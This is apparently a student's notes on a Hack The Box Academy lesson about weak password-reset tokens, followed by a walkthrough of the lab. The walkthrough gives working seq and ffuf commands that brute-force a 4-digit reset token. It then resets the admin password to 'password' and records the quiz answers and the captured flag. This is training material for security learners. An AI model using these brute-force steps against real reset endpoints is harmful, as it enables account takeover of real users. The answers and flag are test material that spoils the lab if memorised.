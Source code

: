```yaml
---
sticker: emoji//1faaa
---
```

Many web applications implement a password-recovery functionality if a user forgets their password. This password-recovery functionality typically relies on a one-time reset token, which is transmitted to the user, for instance, via SMS or E-Mail. The user can then authenticate using this token, enabling them to reset their password and access their account.

As such, a weak password-reset token may be brute-forced or predicted by an attacker to take over a victim's account.

---

## Identifying Weak Reset Tokens

Reset tokens (in the form of a code or temporary password) are secret data generated by an application when a user requests a password reset. The user can then change their password by presenting the reset token.

Since password reset tokens enable an attacker to reset an account's password without knowledge of the password, they can be leveraged as an attack vector to take over a victim's account if implemented incorrectly. Password reset flows can be complicated because they consist of several sequential steps; a basic password reset flow is shown below:

![image](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_1.png)

To identify weak reset tokens, we typically need to create an account on the target web application, request a password reset token, and then analyze it. In this example, let us assume we have received the following password reset e-mail:

```
Hello,

We have received a request to reset the password associated with your account. To proceed with resetting your password, please follow the instructions below:

1. Click on the following link to reset your password: Click

2. If the above link doesn't work, copy and paste the following URL into your web browser: http://weak_reset.htb/reset_password.php?token=7351

Please note that this link will expire in 24 hours, so please complete the password reset process as soon as possible. If you did not request a password reset, please disregard this e-mail.

Thank you.
```

As we can see, the password reset link contains the reset token in the GET-parameter `token`. In this example, the token is `7351`. Given that the token consists of only a 4-digit number, there can be only `10,000` possible values. This allows us to hijack users' accounts by requesting a password reset and then brute-forcing the token.

---

## Attacking Weak Reset Tokens

We will use `ffuf` to brute-force all possible reset tokens. First, we need to create a wordlist of all possible tokens from `0000` to `9999`, which we can achieve with `seq`:

```bash
smoothment@htb[/htb]$ seq -w 0 9999 > tokens.txt
```

The `-w` flag pads all numbers to the same length by prepending zeroes, which we can verify by looking at the first few lines of the output file:

```bash
smoothment@htb[/htb]$ head tokens.txt

0000
0001
0002
0003
0004
0005
0006
0007
0008
0009
```

Assuming that there are users currently in the process of resetting their passwords, we can try to brute-force all active reset tokens. If we want to target a specific user, we should send a password reset request for that user first to create a reset token. We can then specify the wordlist in `ffuf` to brute-force all active reset-tokens:


```bash
smoothment@htb[/htb]$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"

<SNIP>

[Status: 200, Size: 2667, Words: 538, Lines: 90, Duration: 1ms]
    * FUZZ: 6182
```

By specifying the reset token in the GET-parameter `token` in the `/reset_password.php` endpoint, we can reset the password of the corresponding account, enabling us to take over the account:

![](https://academy.hackthebox.com/storage/modules/269/bf/reset_bf_2.png)

# Questions
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214152014.png)

The answers for the first three questions are:

```ad-note
1. `one-time reset token`
2. `-w`
3. `1000000`
```

Now, let's go to the web application:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214160759.png)

We got a login functionality, we can reset out password, let's check it out:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214160832.png)

As seen, we are redirected to `/reset.php`, the input is not properly sanitized, which means, we could send a password reset for other users, for example, let's send a password reset for `admin`:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214161036.png)

If we try going to `/reset_password.php`, we get the following:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214161111.png)

So, we need a token, we can try brute-forcing the token using the following, first, let's generate a sequence of tokens from `0000` to `9999`, which is the maximum length of 4 digits tokens:


```bash
seq -w 0 9999 > tokens.txt
```

Once we got our `tokens.txt` file, we can use ffuf:

```
ffuf -w tokens.txt -u "http://IP:PORT/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200
```

After a while, we get the following:

```
ffuf -w ./tokens.txt -u "http://94.237.54.164:33815/reset_password.php?token=FUZZ" -fr "The provided token is invalid" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.54.164:33815/reset_password.php?token=FUZZ
 :: Wordlist         : FUZZ: /home/samsepiol/tokens.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: The provided token is invalid
________________________________________________

6583                    [Status: 200, Size: 2920, Words: 596, Lines: 92, Duration: 3672ms]
```

Got our token:

```
6583
```

Now, let's visit the following URL:

```
http://IP:PORT/reset_password.php?token=6583
```

We'd see this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214161805.png)

We are able to reset the password, let's simply do the following credentials:

```ad-note
`admin`:`password`
```

Now we can log in:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214162106.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250214162128.png)

Flag is:

```
HTB{36da098385e641d54e1b2750721d816e}
```
